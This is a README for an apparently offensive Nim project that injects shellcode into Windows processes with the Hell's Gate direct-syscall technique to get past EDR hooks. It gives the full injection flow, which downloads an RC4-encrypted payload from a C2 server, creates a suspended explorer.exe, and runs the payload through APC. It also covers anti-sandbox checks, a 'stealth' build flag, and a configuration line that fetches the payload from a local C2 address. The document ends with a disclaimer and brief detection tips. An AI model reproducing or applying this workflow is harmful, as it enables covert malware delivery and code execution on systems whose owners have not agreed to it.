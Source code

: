 # Shellcode Injection via Direct Syscalls (Hell's Gate)

## Overview

This project demonstrates advanced Windows process injection techniques using direct system calls to bypass EDR (Endpoint Detection and Response) hooks. It implements the "Hell's Gate" technique to extract syscall numbers directly from `ntdll.dll` and execute them without going through hooked API functions.

## Features

- **Direct Syscall Execution**: Bypasses userland API hooks by invoking syscalls directly
- **Hell's Gate Technique**: Dynamically extracts syscall numbers from ntdll.dll at runtime
- **Process Hollowing**: Creates a suspended process and injects shellcode via APC (Asynchronous Procedure Call)
- **RC4 Encryption**: Downloads and decrypts shellcode from a remote server
- **Anti-Sandbox**: Basic memory checks to detect virtual environments

## Technical Implementation

### Direct Syscalls

The project implements three core NT functions via direct syscalls:

1. **NtAllocateVirtualMemory** - Allocates memory in the target process
2. **NtWriteVirtualMemory** - Writes shellcode to allocated memory
3. **NtQueueApcThread** - Queues an APC to execute the shellcode

### Syscall Stub Generation

For each syscall, the code:
1. Extracts the syscall number from the corresponding function in ntdll.dll
2. Validates the function prologue pattern (`4C 8B D1 B8`)
3. Generates a minimal assembly stub in executable memory
4. Executes the syscall directly

### Injection Flow

```
1. Download encrypted shellcode from C2 server
2. Decrypt using RC4
3. Create suspended explorer.exe process
4. Allocate RWX memory via NtAllocateVirtualMemory (syscall)
5. Write shellcode via NtWriteVirtualMemory (syscall)
6. Queue APC via NtQueueApcThread (syscall)
7. Resume thread to trigger execution
```

## Requirements

- Windows 10/11 (x64)
- Nim compiler
- Required Nim packages:
  - `winim`
  - `httpclient`
  - Custom RC4 module

## Compilation
Debug :
```bash
nim c main.nim
```

For smaller binary size:
```bash
nim c -d:stealth3 main.nim
```

## Configuration

Update the C2 server URL in the code:
```nim
data = client.getContent("http://192.168.1.19:8080/api_local")
```

Update the RC4 key:
```nim
key : string = "kernel32.dll"
```

## Disclaimer

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**

This code is provided for educational and research purposes to understand advanced malware techniques and improve defensive security measures. Unauthorized use of this code for malicious purposes is illegal and unethical.

- Only use in authorized environments (your own lab, with explicit permission)
- Never deploy against systems you don't own or have written permission to test
- The authors assume no liability for misuse of this code

## Detection & Defense

Security professionals can detect this technique by:

- Monitoring for direct syscall execution patterns
- Detecting unusual assembly stub creation in memory
- Analyzing process creation with suspended threads
- Monitoring APC queue operations
- Network traffic analysis for encrypted payload downloads

## References

- [Hell's Gate Technique](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
- [Direct Syscalls in Offensive Security](https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams/)

## License

This project is licensed under the MIT License - see the LICENSE file for details.
